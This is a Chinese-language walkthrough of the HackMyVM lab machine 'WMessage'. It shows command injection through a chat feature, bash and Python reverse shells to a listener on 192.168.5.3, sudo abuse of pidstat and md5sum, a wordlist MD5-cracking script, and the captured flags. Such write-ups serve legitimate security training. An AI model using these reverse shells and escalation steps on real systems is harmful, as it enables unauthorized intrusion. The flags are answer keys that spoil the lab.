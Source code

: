 # WMessage

2025.02.19 https://hackmyvm.eu/machines/machine.php?vm=WMessage

[video](https://www.bilibili.com/video/BV1iLAkeCE5x/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页跳转到登陆页面，可能存在 SQL 注入，经过测试暂时未发现。有一个注册页面，http://192.168.5.40/sign-up 注册个账号进入系统，发现可以发消息，并且可以执行 !mpstat 查看状态，可能存在 RCE，进行探测，输入 !mpstat:id 刷新页面后，出现 www-data，验证有 RCE，直接反弹 shenll 到 kali：

```
!mpstat;/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'
```

得到反弹 shell:

```
www-data@MSG:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

sudo -l 发现 (messagemaster) NOPASSWD: /bin/pidstat 先提权到 messagemaster 用户：

```
sudo -u messagemaster pidstat -e /bin/bash
```

执行后，很快又被系统踢出来，不能执行交互式的命令。换另外一种方式，在 kali 上再次建立监听，然后用 python 进行反弹：

```
sudo -u messagemaster pidstat -e python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

获取到 messagemaster 用户 shell 后，得到了 user flag：

```
ea86091a17126fe48a83c1b8d13d60ab
```

sudo -l 发现：(ALL) NOPASSWD: /bin/md5sum 然后在 /var/www/ROOTPASS 中有 root 用户密码，使用 sudo 程序将其读取出来，然后进行哈希破解：

```
sudo /bin/md5sum  /var/www/ROOTPASS

85c73111b30f9ede8504bb4a4b682f48
```

hashcat 和 john 解密不出来，写了一个简单的 py 脚本进行解密：

```
import hashlib

def md5_encrypt(data):
    md5 = hashlib.md5()
    md5.update(data.encode('utf-8'))
    return md5.hexdigest()

hashStr = '85c73111b30f9ede8504bb4a4b682f48'

for line in open('/usr/share/wordlists/rockyou.txt', encoding="utf-8", errors="ignore"):
    encrypted_data = md5_encrypt(line)
    if hashStr == encrypted_data:
        print("找到PASS", line)
        break
```

得到密码 Message5687 直接 su 切换到 root，得到了 root flag:

```
root@MSG:~# cat Root.txt
a59b23da18102898b854f3034f8b8b0f
```
